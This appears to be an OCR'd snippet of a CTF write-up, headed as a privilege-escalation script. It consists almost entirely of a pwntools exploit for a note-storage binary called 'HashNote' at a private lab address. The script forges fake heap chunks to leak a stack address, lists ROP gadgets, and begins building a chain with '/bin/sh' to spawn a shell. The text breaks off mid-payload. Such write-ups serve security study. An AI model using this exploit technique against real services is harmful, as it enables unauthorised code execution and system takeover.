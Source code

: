 提权脚本:https://www.dr0n.top/posts/f249db01/

```
from pwn import *
context.arch='amd64'

def add(key,data='b'):
    p.sendlineafter(b'Option:',b'1')
    p.sendlineafter(b'Key:',key)
    p.sendlineafter(b'Data:',data)

def show(key):
    p.sendlineafter(b'Option:',b'2')
    p.sendlineafter(b"Key: ",key);

def edit(key,data):
    p.sendlineafter(b'Option:',b'3')
    p.sendlineafter(b'Key:',key)
    p.sendlineafter(b'Data:',data)

def name(username):
    p.sendlineafter(b'Option:',b'4')
    p.sendlineafter(b'name:',username)


p = remote('172.28.23.33', 59696)
# p = process('./HashNote')


username=0x5dc980
stack=0x5e4fa8
ukey=b'\x30'*5+b'\x31'+b'\x44'

fake_chunk=flat({
    0:username+0x10,
    0x10:[username+0x20,len(ukey),\
        ukey,0],
    0x30:[stack,0x10]
    },filler=b'\x00')

p.sendlineafter(b'name',fake_chunk)
p.sendlineafter(b'word','freep@ssw0rd:3')

add(b'\x30'*1+b'\x31'+b'\x44',b'test')   # 126
add(b'\x30'*2+b'\x31'+b'\x44',b'test')   # 127


show(ukey)
main_ret=u64(p.read(8))-0x1e0




rdi=0x0000000000405e7c # pop rdi ; ret
rsi=0x000000000040974f # pop rsi ; ret
rdx=0x000000000053514b # pop rdx ; pop rbx ; ret
rax=0x00000000004206ba # pop rax ; ret
syscall=0x00000000004560c6 # syscall

fake_chunk=flat({
    0:username+0x20,
    0x20:[username+0x30,len(ukey),\
        ukey,0],
    0x40:[main_ret,0x100,b'/bin/sh\x00']
```